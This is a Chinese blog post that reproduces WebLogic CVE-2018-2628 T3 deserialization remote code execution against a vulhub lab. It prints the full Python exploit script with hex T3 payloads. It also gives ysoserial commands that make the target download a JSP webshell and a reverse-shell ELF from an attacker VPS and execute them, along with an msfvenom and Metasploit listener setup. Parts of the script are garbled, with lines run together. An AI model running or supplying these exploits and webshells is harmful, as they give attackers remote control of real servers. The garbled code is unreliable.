

# CVE-2018-2628-WLS Core Components 反序列化 - Null1433 - 博客园

> 原文：[`www.cnblogs.com/null1433/p/12677537.html`](https://www.cnblogs.com/null1433/p/12677537.html)

漏洞参考

https://blog.csdn.net/csacs/article/details/87122472

漏洞概述:
在 WebLogic 里，攻击者利用其他 rmi 绕过 weblogic 黑名单限制，然后在将加载的内容利用 readObject 解析，从而造成反序列化远程代码执行该漏洞，该漏洞主要由于 T3 服务触发，所有开放 weblogic 控制台 7001 端口，默认会开启 T3 服务，攻击者发送构造好的 T3 协议数据，就可以获取目标服务器的权限。

针对 CVE-2018-2628 的简单利用过程[ 由于 weblogic 对于 T3 协议发送的数据包没有过滤,注册一个 RMI 接口,通过 T3 协议建立连接,加载回来再一步步解包,利用 readObject 解析,从而造成了反序列化远程代码执行 ]

检测脚本

[`github.com/kingkaki/weblogic-scan`](https://github.com/kingkaki/weblogic-scan) 

影响版本
Weblogic 10.3.6.0
Weblogic 12.1.3.0
Weblogic 12.2.1.2
Weblogic 12.2.1.3

环境搭建

[`github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2628`](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2628)

所需要的工具利用，事先把 2 个工具给安装到/tmp 目录下

https://www.exploit-db.com/exploits/44553

如果没用 ysoserial，可安装到 shiro.py 同目录
或者利用 ysoserial 进行编码
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -DskipTests
cp target/ysoserial-0.0.5-SNAPSHOT-all.jar /tmp


漏洞复现

1.先测试是否能执行命令，来 ping 一下 dnslog

使用 ysoserial 中 JRMP 监听模块，监听 6666 端口 （不同字体就是上面编码后的命令）（注意标黄的位置，是工具名称，注意适时更换）

攻击机中执行命令：

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'ping vw80p7.dnslog.cn'


2\. 使用 python 脚本

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient] 
```

其中，`[victim ip]`和`[victim port]`是目标 weblogic 的 IP 和端口，`[path to ysoserial]`是本地 ysoserial 的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动 JRMP Server 的 IP 地址和端口。`[JRMPClient]`是执行 JRMPClient 的类，可选的值是`JRMPClient`或`JRMPClient2`。

python cve_2018_2628.py 目标 ip 7001 ysoserial.jar vpsIP 1099 JRMPClient


```
# -*- coding: utf-8 -*- # Oracle Weblogic Server (10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3) Deserialization Remote Command Execution Vulnerability (CVE-2018-2628)
#
# IMPORTANT: Is provided only for educational or information purposes.
#
# Credit: Thanks by Liao Xinxi of NSFOCUS Security Team
# Reference: http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
#
# How to exploit:
# 1. run below command on JRMPListener host
# 1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
#       e.g. java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 10.0.0.5 4040' # 2. start a listener on attacker host
#    e.g. nc -nlvp 4040 # 3. run this script on attacker host
# 1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
#       e.g.
#           a) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient (Using java.rmi.registry.Registry)
#           b) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient2 (Using java.rmi.activation.Activator) from __future__ import print_function

import binascii
import os
import socket
import sys
import time

def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    #generates ysoserial payload
    command = 'java -jar {} {} {}:{} > payload.out'.format(path_ysoserial, jrmp_client, jrmp_listener_ip, jrmp_listener_port)
    print("command: " + command)
    os.system(command)
    bin_file = open('payload.out','rb').read() return binascii.hexlify(bin_file)

def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
    time.sleep(1)
    sock.recv(1024)
    print('handshake successful')

def build_t3_request_object(sock, port):
    data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371' data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134' data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))

def send_payload_objdata(sock, data):
    payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000' payload+=data
    payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff' payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
    sock.send(payload.decode('hex'))
    time.sleep(2)
    sock.send(payload.decode('hex'))
    res = ''
    try: while True:
            res += sock.recv(4096)
            time.sleep(0.1)
    except Exception:
        pass return res

def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
    print("payload: " + payload)
    rs=send_payload_objdata(sock, payload)
    print('response: ' + rs)
    print('exploit completed!') if __name__=="__main__":
    #check for args, print usage if incorrect if len(sys.argv) != 7:
        print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
        sys.exit()

    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
```

 3.  是能够执行命令的



 4\. 由于利用网上的 poc 和 python 都没有利用成功，反弹 shell 和远程下载大马都不成功，被报错，应该是有传输限制大小

 

 所以远程下载个小马执行

```
jsp 有回显带密码验证的: <%
if("023".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b));
} out.print("</pre>");
} %> 请求：http://192.168.16.240:7001/Shell/cmd2.jsp?pwd=023&i=ls
```

演示    红字体是需要执行的命令，需要执行上面命令，直接替换

执行命令，创建服务

java -cp ysoserial.jar ysoserial.exploit.JRMPLister 1099 CommonsCollections1 'wget http://vpsIP/JspSpy.jsp.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/5.jsp'


执行脚本

python cve_2018_2628.py 目标 IP 7001 ysoserial.jar vpsIP 1099 JRMPClient


访问一句话，执行命令

[`x.x.x.x:7001/_async/5.jsp?pwd=023&i=whoam`](http://47.101.193.196:7001/_async/5.jsp?pwd=023&i=whoami)i


 方法 2

利用 msf 或 cs 上马

制作木马过程就不赘述了

msfvenom -p linux/x86/shell_reverse_tcp LHOST=vpsIP LPORT=44443 -f elf > test.elf

启动 msfconsole 监听

use exploit/multi/handler set

set payload linux/x86/shell_reverse_tcp 

set lhost vpsIP

set lport 44443

run

和上面的方法差不多，生成完成后，上传到 vps 服务器，然后远程下载

用 curl 执行远程下载命令，报错到/tmp 目录下（这里我用 wget 下载-P 不能目录，所以无法利用）

java -cp ysoserial.jar ysoserial.exploit.JRMPLister 1099 CommonsCollections1 'curl -o /tmp/test.elf http://x.x.x.x/test.elf'


 执行 python

python cve_2018_2628.py 目标 IP 7001 ysoserial.jar vpsIP 1099 JRMPClient


然后重复上 2 步的步骤

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'chmod +x /tmp/test.elf'    添加文件权限

python cve_2018_2628.py 目标 IP 7001 ysoserial.jar vpsIP 1099 JRMPClient  

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 './test.elf'  运行 test.

